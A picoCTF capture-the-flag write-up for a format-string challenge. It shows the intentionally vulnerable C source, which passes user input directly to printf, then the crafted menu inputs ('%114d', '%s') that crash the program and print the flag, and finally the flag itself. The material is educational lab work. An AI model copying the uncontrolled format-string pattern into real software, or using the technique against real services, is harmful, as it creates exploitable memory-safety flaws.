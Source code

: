 # Description: 
Can you use your knowledge of format strings to make the customers happy?

Download the binary `here`.

Download the source `here`.

Connect with the challenge instance here: nc mimas.picoctf.net 50742
# Solution: 
This was the program provided in the attachment:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```
Too vast and overwhelming so first I ran the nc command 
```
yasho@DESKTOP-6ND4URA:~$ nc mimas.picoctf.net 63719
```
Output: 

Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.

Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe

Enter your recommendation: 

_It was asking for input so I went to the program and quickly glanced over the blocks where this burgers list comes into picture._

```
int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
```
Realized that this block of code must be used for debugging because this determines the output after my interactive input. Also, in the beginning of the program, BUFSIZE is defined as 32; and `int count = printf(choice1);` will count the number of characters printed by printf (printf is printing our choice entered btw).
So, choice will satisfy condition if it has >64 characters.

I checked the burgers mentioned in the list and format specifiers have the symbol % included, so I looked up format specifiers in C just to confirm.
`Gr%114d_Cheese` is mentioned in first customer's burgers list and `%114d` in C is a format specifier which creates a number of 114 characters. If the integer is less than 114 characters then it will do padding before the integer such that the total width is 114 characters.

Examples:

`printf("%114d\n", 42);` will print 112 spaces and then the number 42.

`printf("%0114d\n", 42);` will print `0` 112 times before the number 42.

`printf("%-114d\n", 42);` will print 42 in left alignment.

Padding is mentioned between % and 1. If not, then it will print space. So, here `Gr%114d_Cheese` will have width more than 114 which is why it will satisfy the condition `count > 2*BUFSIZE`.

I entered `Gr%114d_Cheese` and it worked.

Output: 
```
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation:
```
Now, using the same kinda logic for 2nd customer, I noticed that `Cla%sic_Che%s%steak` has %s in it, not once but twice at that. When `%s` is seen in printf statement, printf will look for a string argument for it. Here, there is no argument so it will generate some garbage value and print it. So, this would suffice for Bob's "outrageous" order?

Entered `Cla%sic_Che%s%steak` and it worked.

Output:
```
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```
# Flag:
>picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
